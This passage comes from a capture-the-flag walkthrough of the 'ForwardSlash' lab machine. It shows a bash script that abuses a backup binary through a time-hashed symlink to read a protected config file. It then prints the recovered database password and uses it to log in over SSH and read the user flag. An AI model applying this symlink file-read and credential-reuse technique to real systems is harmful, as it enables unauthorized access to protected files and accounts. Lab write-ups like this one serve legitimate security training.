 So we can read a file owned by pain now by modifying our scipt:

```bash
time=$(date +"%H:%M:%S")
hash=$(printf %s $time | md5sum | cut -d ' ' -f 1)
# create file
ln -s /var/backups/config.php.bak $hash
# call backup
backup
```


Now we can read `/var/backups/config.php.bak`:
```php
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'pain');
define('DB_PASSWORD', 'db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704');
define('DB_NAME', 'site');

/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);

// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```

Again let's try credential stuffing on SSH:

```
$ ssh pain@forwardslash.htb
pain@forwardslash.htb's password:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jul  5 19:12:12 UTC 2020

  System load:  0.0                Processes:            174
  Usage of /:   30.8% of 19.56GB   Users logged in:      1
  Memory usage: 11%                IP address for ens33: 10.10.10.183
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

16 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Mar  5 14:22:04 2020 from 192.168.56.1
pain@forwardslash:~$ cat user.txt
dd552dcd5a367ea132ee2f017dc5a02d
```
